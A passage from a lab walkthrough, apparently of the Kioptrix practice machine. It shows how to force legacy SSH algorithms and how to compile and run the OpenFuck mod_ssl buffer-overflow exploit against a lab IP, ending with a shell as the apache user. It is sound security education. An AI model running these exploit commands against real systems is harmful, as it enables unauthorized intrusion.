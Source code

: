     sudo ssh 192.168.1.31 

And we cannot connect due to...

    Unable to negotiate with 192.168.1.31 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

Ok. When this things happen (not usually but sometimes they do appear) try to add `-v` to the command. `-v` stands for *verbose* which means the terminal will print all the processes happening behind so we can see where the error is.

    debug1: kex: algorithm: (no match)

Ok, here's the solution: 

    sudo ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-rsa -c aes128-cbc 192.168.1.31

And with that command we can connect via SSH! But we don't have the password so, what's the point? Well, sometimes when you try to connect via SSH a banner is exposed. This banner may contain valuable information. Not this time but have ir in mind for future SSH adventures.

Let's recap what we have so far:

 - **mod_ssl/2.8.4:** Remote buffer overflow which may allow a remote shell.
 - And **trans2open:** Buffer overflow found in Samba versions 2.2.0 to 2.2.8.

**Now we should research those exploitable points and see what we found out!** 

## Exploitation

> **Note:** After gaining root access, I researched a bit more about this vulnerable machine and there's an easier way to get inside with root access if you do it through Samba exploitation. I'll explain both ways.

#### Method #1

I found quite interesting the **mod_ssl/2.8.4** vulnerability. I will leave you the exploit for download but you can check the source code [**here**](https://www.exploit-db.com/exploits/47080) and read a bit more about how to use it [**here.**](https://github.com/heltonWernik/OpenLuck)

Just download the **OpenFckV2.c** and compile it:

    sudo gcc OpenFckV2.c -o OpenFckV2

Now run it with `./OpenFckV2` And you'll see the command for the different versions. Our command would be:

    sudo ./OpenFckV2 0x6b 192.168.1.31 443 -c 100

And there we are! We have a shell! Let's see who are we:

    whoami

*apache*

    id
    
*uid=48(apache) gid=48(apache) groups=48(apache)*
